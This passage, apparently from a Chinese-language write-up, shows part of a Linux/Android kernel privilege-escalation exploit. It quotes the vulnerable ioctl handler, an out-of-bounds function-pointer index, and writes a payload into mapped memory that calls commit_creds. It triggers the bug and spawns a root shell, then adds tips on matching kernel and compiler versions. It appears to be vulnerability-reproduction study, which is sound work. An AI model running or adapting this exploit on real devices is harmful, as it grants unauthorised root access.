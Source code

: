 ```
           /*  20:*/   commit_creds          //  .word   commit_creds
        };
 
    memcpy( (void*)mmap_start+mmap_size - sizeof(jump), jump, sizeof(jump));
 
    /*这里看一下触发的函数吧,都是OOB，但是没那么复杂，不需要构造socket交互，而是换为了ioctl
    CommandHandler handlers[] = {
       {
         .runHandler = &doNothingIntializer
       },
       {
         .runHandler = &doNothingIntializer
       }
    };
    long ai_ch_ioctl(struct file *filp,
                      unsigned int cmd,
                      unsigned long arg)
    {
     unsigned int handler_index = arg;
 
      switch (cmd) {
        case RUN_COMMAND_HANDLER:
           handlers[handler_index].runHandler();
           break;
        default :
           printk("Unknown ioctl cmd: %d", cmd);
           return -1;
      }
      return 0;
    }*/
 
    printf("[+] Triggering the exploit\n");
    int rc = ioctl(cmd_handler, RUN_COMMAND_HANDLER, 0x601);
    check(rc != -1, "IOCTL failed");
 
    printf("uid=%d, euid=%d\n",getuid(), geteuid() );
 
    if(!getuid())
      execl( "/system/bin/sh", "sh", (char*) NULL);
 
    return 0;
  error:
    return -1;
} 
```

最后运行时需要注意，不要用串了。。。我一开始用错一个 exp，直接用了 exploit-db 上的 exp，而其对应的 linux 内核版本是 3.3-3.8，而在 Android 模拟器上复现的话，还是用 ndk 编译，且具体的数据构造和 exp 内容（特别是汇编部分）还是不一样的，注意查看下对应的系统结构比如下面这个，注意对应的 gcc 版本，一开始没注意还运行不起来。。。

```
Linux version 3.4.67-g5e0dcfb (test@test-virtual-machine) (gcc version 4.6.x-google 20120106 (prerelease) (GCC) ) #1 PREEMPT Sun Mar 8 14:27:12 CST 2020

```
